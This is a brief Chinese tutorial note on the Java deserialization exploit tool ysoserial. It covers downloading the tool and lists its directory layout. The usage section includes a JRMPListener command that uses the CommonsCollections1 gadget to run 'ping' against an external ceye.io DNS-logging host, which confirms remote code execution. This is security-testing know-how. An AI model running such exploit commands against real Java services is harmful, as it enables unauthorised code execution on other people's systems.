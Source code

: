 # ysoserial反序列

## 0、前言

>   java反序列利用神器





## 1、下载

```bash
https://github.com/frohoff/ysoserial/releases/tag/v0.0.6
或者
git clone https://github.com/frohoff/ysoserial.git
```

## 2、使用

-   主要有两种使用方：
    -   一种是运行ysoserial.jar 中的主类函数，
    -   另一种是运行ysoserial中的exploit 类，
    -    二者的效果是不一样的，一般用第二种方式开启交互服务

```basic
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPListener 38471
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'ping -c 2  rce.267hqw.ceye.io'
```

**目录结构**

```java
ysoserial
    ├─ Deserializer.java			// 反序列化
    ├─ GeneratePayload.java			// 生成对应序列化内容
    ├─ Serializer.java				// 序列化
    ├─ Strings.java
    ├─ exploit
    ├─ payloads
    └─ secmgr
```

